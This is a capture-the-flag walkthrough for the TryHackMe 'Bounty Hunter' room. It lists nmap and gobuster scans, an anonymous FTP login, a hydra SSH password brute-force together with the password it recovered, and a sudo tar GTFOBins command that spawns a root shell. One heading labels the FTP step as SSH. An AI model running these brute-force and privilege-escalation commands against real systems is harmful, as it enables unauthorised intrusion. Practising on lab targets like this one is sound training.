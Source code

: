 # Bounty Hunter

**Room Link:** [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker)



## Scanning

### Initial Scan

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

<pre><code><strong>nmap -p- $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH&#x20;

anonymous login works

**Kali**

```
ftp $VICTIM
Username: anonymous
```

<figure><img src="../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l lin -P locks.txt ssh://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

```
Username: lin
Password: RedDr4gonSynd1cat3
```

**Kali**

```
ssh lin@$VICTIM
```

## Privlege Escalation&#x20;

**Exploit Link:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

**Victim**

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

<figure><img src="../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>







